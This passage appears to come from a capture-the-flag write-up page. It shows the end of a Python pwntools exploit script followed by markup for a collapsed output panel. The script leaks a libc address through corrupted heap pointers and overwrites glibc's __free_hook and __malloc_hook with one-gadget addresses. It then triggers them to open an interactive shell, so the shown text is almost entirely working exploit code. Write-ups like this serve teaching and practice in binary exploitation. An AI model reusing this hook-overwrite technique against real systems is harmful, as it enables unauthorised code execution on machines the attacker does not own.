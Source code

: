 ```python
        b = bytes[i]
        if b:
            while (b > 0x7f):
                add(addr, sign*0x7f)
                b -= 0x7f
            add(addr, sign*b)
        addr += 1

add(aout.symbols["list"], 0x40) # restore "no-args" to be the first item

# leaked pointer is heap offset 0x2B0, which is the value of `name*` for the
# `problem_t` at offset 0x290.
# Offset 0x290 is the user-data for the next `problem_t` after "dummy"
# The problem_t for "dummy" is at 0x250 (it's original namestring string "dummy" is at 0x2B0)
# The current value of `name*` for "dummy" is heap offset 0x290.

add32(heap_base + 0x250,  -(heap_base + 0x290)) # subtract out current value (result=0)

write64(heap_base + 0x250, aout.symbols["stdout"])

# reset list to "dummy", who's name now points a value containing a libc addr.
add(aout.symbols["list"], -0x40) 

lib = ELF("libc.so.6")

libc_addr = leak_top()
libc_base = libc_addr - lib.symbols["_IO_2_1_stdout_"]
print("LEAKED LIBC ADDR: 0x%08X" % libc_addr)
print("LIBC BASE ADDR: 0x%08X" % libc_base)

gadget = libc_base + 0x4526a
print("GADGET ADDR (req rsp+0x30 == null): 0x%08X" % gadget)

write64(libc_base + lib.symbols["__free_hook"], gadget)
write64(libc_base + lib.symbols["__malloc_hook"], libc_base + 0x1fb5a)

print("WROTE FREE GADGET ADDR: 0x%08X" % gadget)
print("WROTE MALLOC GADGET ADDR: 0x%08X (calls free)" % (libc_base + 0x1fb5a))

add(aout.symbols["state"], -1) # reset back to nomination

nominate("pwn")

p.interactive()
```

</div>
    </div>
  </div>

  <div class="panel panel-info">
    <div class="panel-heading">
      <h3 class="panel-title">
        <a data-toggle="collapse" href="#collapseOutput" aria-expanded="false" aria-controls="collapseOutput">
        Complete Program Output <small>(click to expand)</small>
        <i class="glyphicon glyphicon-menu-left pull-right"></i>
        <i class="glyphicon glyphicon-menu-down pull-right"></i>
        </a>
      </h3>
    </div>
    <div id="collapseOutput" class="panel-collapse collapse">
<div class="panel-body" markdown="1">

